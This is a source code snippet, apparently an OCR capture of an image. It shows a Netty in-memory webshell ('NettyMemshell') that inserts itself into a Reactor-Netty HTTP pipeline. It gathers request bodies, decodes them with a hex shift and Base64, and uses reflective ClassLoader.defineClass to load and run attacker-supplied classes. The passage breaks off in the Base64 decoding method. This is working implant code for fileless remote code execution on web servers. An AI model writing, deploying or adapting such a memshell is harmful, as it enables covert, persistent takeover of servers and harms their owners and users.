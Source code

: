 ```php
        pipeline.addBefore("reactor.left.httpTrafficHandler", "memshell_handler", new NettyMemshell());
    }

    public void channelRead(ChannelHandlerContext ctx, Object msg) throws Exception {
        String msgClassName = msg.getClass().getName();

        if(msgClassName.indexOf("DefaultHttpContent")!=-1){
            DefaultHttpContent defaultHttpContent = (DefaultHttpContent)msg;
            int bodyLength = defaultHttpContent.content().readableBytes();
            byte[] bytes = new byte[bodyLength];
            defaultHttpContent.content().readBytes(bytes);
            String requestMessage = new String(bytes);
            this.result = this.result + requestMessage;
        }else if (msgClassName.indexOf("DefaultLastHttpContent")!=-1){
            DefaultLastHttpContent defaultLastHttpContent = (DefaultLastHttpContent)msg;
            int bodyLength = defaultLastHttpContent.content().readableBytes();
            byte[] bytes = new byte[bodyLength];
            defaultLastHttpContent.content().readBytes(bytes);
            String requestMessage = new String(bytes);
            this.result = this.result + requestMessage;
            this.send(ctx,this.result);
            return;
        }
        ctx.fireChannelRead(msg);
    }
    private void send(ChannelHandlerContext ctx,String message) throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException, NoSuchMethodException, InvocationTargetException, InstantiationException, IOException, IOException {
        String requestMessage = message;
        Object response = new DefaultFullHttpResponse(HttpVersion.HTTP_1_1, HttpResponseStatus.OK, Unpooled.copiedBuffer("123", CharsetUtil.UTF_8));
        Object session = null;

        Map<String,Object> objects = new HashMap<String,Object>();
        objects.put("session",session);
        objects.put("response",response);
        objects.put("request",ctx);

        Method method = ClassLoader.class.getDeclaredMethod("defineClass",byte[].class,int.class,int.class);
        method.setAccessible(true);
        String deStr="";
        System.out.println(requestMessage.length());
        for(int i=0;i<requestMessage.length();i=i+2){
            String str2 = requestMessage.substring(i,i+2);
            char char2 = (char)(Integer.parseInt(str2,16)-1);
            deStr = deStr + char2;
        }
        byte[] contentBytes = base64De(deStr);
        ((Class)method.invoke(new URLClassLoader(new URL[]{},this.getClass().getClassLoader()),contentBytes,0,contentBytes.length)).newInstance().equals(objects);
    }

    public byte[] base64De(String enString) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException, ClassNotFoundException, InstantiationException {
        byte[] bytes;
        try {
            Class clazz = Class.forName("java.util.Base64");
            Method method = clazz.getDeclaredMethod("getDecoder");
            Object obj = method.invoke(null);
            method = obj.getClass().getDeclaredMethod("decode", String.class);
            obj = method.invoke(obj, enString);
```
